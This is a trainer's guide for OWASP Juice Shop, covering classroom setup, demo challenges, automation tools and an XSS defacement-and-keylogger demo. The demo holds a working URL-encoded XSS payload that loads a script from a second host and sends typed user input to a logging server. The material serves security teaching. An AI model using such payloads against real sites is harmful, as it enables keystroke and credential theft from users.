

# Trainer's guide

Co-authored by [Timo Pagel](https://github.com/wurstbrot)

## Instances

Make sure all participants have their own running Juice Shop instance to
work with. While attempting challenges like
[RCE](../part2/insecure-deserialization.md) or [XXE](../part2/xxe.md)
students might occasionally take down their server and would severely
impact other participants if they shared an instance.

There are multiple [Run Options](../part1/running.md#run-options) which
you can choose from. It is perfectly fine to run multiple docker
containers on one host. They do not effect each other.

## Customization

Especially in awareness trainings for management you might want to
create a higher immersion by making the Juice Shop look like an
application in the corporate design of the participants' own company.
Juice Shop offers
[various customization options](../part1/customization.md) to achieve
this.

Several custom configurations already come packaged with the Juice Shop
source code, the two most sophisticated ones being
[7 Minute Security](https://github.com/bkimminich/juice-shop/blob/master/config/7ms.yml)
and
[Mozilla](https://github.com/bkimminich/juice-shop/blob/master/config/mozilla.yml).

In addition, you might want to disable all challenge notifications
during awareness trainings to avoid distraction. The
[Quiet](https://github.com/bkimminich/juice-shop/blob/master/config/quiet.yml)
configuration demonstrates the necessary options to achieve this.



For a really sophisticated and immersive demo consider performing some
[Additional Browser tweaks](../part1/customization.md#additional-browser-tweaks).
These will let you use OAuth2 login via Google and cast the illusion
that coupon codes were actually tweeted by your customer's company.

## Classroom hints

In a class room setup you have to find a way to distribute the URL of
each instance to the participants. For small groups, it is probably fine
to just spin up a number of containers and tell all participants which
URL they have to use. An example to spin up 10 Docker containers on a
UNIX based system is to run

```
for i in {10..19}; do docker run -d -p 40$i:3000 bkimminich/juice-shop; done
```

If you want to track progress centrally during the training, you might
want to [host a central CTF server](../part1/ctf.md) where participants
can post the challenges they already solved. You might consider turning
off public visibility of the leader board on the CTF server unless you
want to encourage the students to hack very competitively.

### Hosting individual instances for multiple users

A solution to host and manage individual Juice Shop instances for
multiple users is [JuicyCTF](https://github.com/iteratec/juicy-ctf/).
JuicyCTF is a Kubernetes based system to start up the required Juice
Shop instances on demand. It will also clean up unused instances after a
configured period of inactivity.

JuicyCTF comes with a custom-built load balancer. It allows every
participant to use the same URL, but their traffic will always be sent
to their own personal instance.

The JuicyCTF repository contains multiple guides on how to set up the
system on different cloud provider environments.

## Existing trainings

One existing training which uses the Juice Shop for example is
[Timo Pagel's University Module](https://drive.google.com/open?id=1ITkTAALjZJnGV-hhAZ-zQfNx1sVTzlA2UlWD0s270ig).
The structure mostly is as follows:

1. Introduce a topic (e.g. SQL Injection)
2. Let the participants try it out in the Juice Shop
3. Show mitigation/counter measures

The 2nd semester web attack chapters of
[Björn Kimminich's IT Security Lecture](https://github.com/bkimminich/it-security-lecture)
follow a similar pattern of

1. Introduction
2. Timeboxed exercise
3. Demonstration of the hack (for all who did not finish the exercise in
   time)
4. Explaining mitigation and prevention

You can find more links to existing material in the
[Lectures and Trainings section](https://github.com/bkimminich/juice-shop/blob/master/REFERENCES.md#lectures-and-trainings)
of the project references on on GitHub.

## Challenges for demos

The following challenges are well suited for live demonstrations in
trainings or talks. You should **always** begin by showing how to find
the
[Score Board](../part2/score-board.md#find-the-carefully-hidden-score-board-page)
( ⭐ ) so you can then pick any of the challenge below to further
demonstrate certain categories of vulnerabilities.

| Challenge                                                                                                           | Category                   | Difficulty | Time for demo | Dependencies                                                                                                                                                                                                                                                                                                                                             |
|:--------------------------------------------------------------------------------------------------------------------|:---------------------------|:-----------|:--------------|:---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| [DOM XSS](../part2/xss.md#perform-a-dom-xss-attack)                                                                 | XSS                        | ⭐          | ⏳             | None                                                                                                                                                                                                                                                                                                                                                     |
| [Confidential Document](../part2/sensitive-data-exposure.md#access-a-confidential-document)                         | Sensitive Data Exposure    | ⭐          | ⏳             | None                                                                                                                                                                                                                                                                                                                                                     |
| [Login Admin](../part2/injection.md#log-in-with-the-administrators-user-account)                                    | Injection                  | ⭐⭐        | ⏳             | None                                                                                                                                                                                                                                                                                                                                                     |
| [Reflected XSS](../part2/xss.md#perform-a-reflected-xss-attack)                                                     | XSS                        | ⭐          | ⏳             | Log in as any user                                                                                                                                                                                                                                                                                                                                       |
| [Classic Stored XSS](../part2/xss.md#perform-an-xss-attack-on-a-legacy-page-within-the-application)                 | XSS                        | ⭐          | ⏳             | Log in as any user                                                                                                                                                                                                                                                                                                                                       |
| [Privacy Policy](../part2/miscellaneous.md#read-our-privacy-policy)                                                 | Miscellaneous              | ⭐          | ⏳             | Log in as any user                                                                                                                                                                                                                                                                                                                                       |
| [Privacy Policy Inspection](../part2/security-through-obscurity.md#prove-that-you-actually-read-our-privacy-policy) | Security through Obscurity | ⭐⭐⭐       | ⏳⏳            | [Privacy Policy](../part2/miscellaneous.md#read-our-privacy-policy)                                                                                                                                                                                                                                                                                      |
| [Admin Section](../part2/broken-access-control.md#access-the-administration-section-of-the-store)                   | Broken Access Control      | ⭐⭐        | ⏳⏳            | [Login Admin](../part2/injection.md#log-in-with-the-administrators-user-account) or [Admin Registration](../part2/improper-input-validation.md#register-as-a-user-with-administrator-privileges)                                                                                                                                                         |
| [View Basket](../part2/broken-access-control.md#view-another-users-shopping-basket)                                 | Broken Access Control      | ⭐⭐        | ⏳⏳            | Log in with two different users                                                                                                                                                                                                                                                                                                                          |
| [Easter Egg](../part2/broken-access-control.md#find-the-hidden-easter-egg)                                          | Broken Access Control      | ⭐⭐⭐⭐     | ⏳⏳⏳           | Explain _Poison Null Byte_                                                                                                                                                                                                                                                                                                                               |
| [Nested Easter Egg](../part2/cryptographic-issues.md#apply-some-advanced-cryptanalysis-to-find-the-real-easter-egg) | Cryptographic Issues       | ⭐⭐⭐⭐     | ⏳⏳⏳           | [Easter Egg](../part2/broken-access-control.md#find-the-hidden-easter-egg)                                                                                                                                                                                                                                                                               |
| [Forgotten Developer Backup](../part2/sensitive-data-exposure.md#access-a-developers-forgotten-backup-file)         | Sensitive Data Exposure    | ⭐⭐⭐⭐     | ⏳⏳⏳           | Explain _Poison Null Byte_                                                                                                                                                                                                                                                                                                                               |
| [Forged Coupon](../part2/cryptographic-issues.md#forge-a-coupon-code-that-gives-you-a-discount-of-at-least-80)      | Cryptographic Issues       | ⭐⭐⭐⭐⭐⭐  | ⏳⏳⏳⏳          | [Forgotten Developer Backup](../part2/sensitive-data-exposure.md#access-a-developers-forgotten-backup-file) and `z85-cli` installed **or** [Forgotten Sales Backup](../part2/sensitive-data-exposure.md#access-a-salesmans-forgotten-backup-file) **or** tracing coupons from Twitter/Reddit back to <https://travis-ci.org/bkimminich/juicy-coupon-bot> |

### XSS demo

A particularly impressive
[showcase of XSS site-defacement combined with a keylogger](https://github.com/wurstbrot/shake-logger)
is provided explicitly for live demos and awareness trainings:

1. Install [Docker](https://www.docker.com/).
2. Run `git clone https://github.com/wurstbrot/shake-logger`.
3. Run `cd shake-logger` and then `docker-compose up`.
4. Turn on your speakers and make sure your browser is allowed to play
   sound.
5. Open
   [this link](http://localhost:3000/#/search?q=%3Cimg%20src%3D%22bha%22%20onError%3D%27javascript%3Aeval%28%60var%20js%3Ddocument.createElement%28%22script%22%29%3Bjs.type%3D%22text%2Fjavascript%22%3Bjs.src%3D%22http%3A%2F%2Flocalhost%3A8080%2Fshake.js%22%3Bdocument.body.appendChild%28js%29%3Bvar%20hash%3Dwindow.location.hash%3Bwindow.location.hash%3D%22%23%2Fsearch%3Fq%3Dowasp%22%3BsearchQuery.value%20%3D%20%22owasp%22%3B%60%29%27%3C%2Fimg%3Eowasp)
   to launch the XSS demo (🔊).
6. Use the application normally, e.g. doing a search and logging in with
   some user.
7. In a new tab go to <http://localhost:8080/logger.php> to see that all
   user input was transmitted to a third-party server.
8. Show the Network tab of the browser window with Juice Shop to see the
   requests that are sent to the `logger.php` script.
9. Reload the Juice Shop with `F5` and use the application a bit more.
10. You will see that no more logging takes place as XSS payload was
    removed during the reload.

There is also a video recording available on YouTube:
<https://youtu.be/Msi52Kicb-w>. This is a good fallback in case the
Docker-based setup does not work for you.

## Teaching automation of security tools

Only a few challenges in OWASP Juice Shop are _explicitly_ expecting to
utilize the power of automation, mostly in the form of some brute force
attack. Quite a few more challenges are still _well-suited_ for teaching
the use of automated tools . The following table gives you an idea on
complexity and expected time consumption for each of these, so you can
plan your training accordingly.

| Tool                                                                                                                                                                                                      | Description                                                                                                   | Effort to automate | Execution runtime | Challenges (Auto-solve?)                                                                                                                                 |
|:----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|:--------------------------------------------------------------------------------------------------------------|:-------------------|:------------------|:---------------------------------------------------------------------------------------------------------------------------------------------------------|
| OWASP ZAP _Forced Browse_ with [`directory-list-lowercase-2.3-small.txt`](https://raw.githubusercontent.com/daviddias/node-dirbuster/master/lists/directory-list-lowercase-2.3-small.txt) or bigger lists | Finds `/ftp` folder with many misplaced files _and_ `/promotion` (and direct `/video`) path with jingle video | 🧠                | ⏳⏳                | Confidential Document(❌), Forgotten Developer Backup(❌), Forgotten Sales Backup(❌), Misplaced Signature File(❌), Login Support Team(❌), Video XSS(❌) |
| OWASP ZAP _Forced Browse_ with [`directory-list-lowercase-2.3-big.txt`](https://raw.githubusercontent.com/daviddias/node-dirbuster/master/lists/directory-list-lowercase-2.3-big.txt)                     | Finds `/encryptionkeys` directory with `jwt.pub` _and_ `premium.key` key files                                | 🧠                | ⏳⏳⏳               | Forged Signed JWT(❌), Premium Challenge(❌)                                                                                                              |
| Custom script with 10-iteration loop that sends `POST` to <http://localhost:3000/api/Feedbacks>                                                                                                           | Must pin `captchaId` and `captcha` from one initially received and solved CAPTCHA                             | 🧠🧠              | ⏳                 | CAPTCHA Bypass(✔️)                                                                                                                                     |
| Custom script sending 3 _simultaneous_ `POST` requests to <http://localhost:3000/rest/products/reviews>                                                                                                   | Requests must be processed within 150ms time window to exploit race condition flaw                            | 🧠🧠🧠           | ⏳                 | Multiple Likes(✔️)                                                                                                                                     |
| 🛠️ **TODO**                                                                                                                                                                                            |                                                                                                               |                    |                   |                                                                                                                                                          |


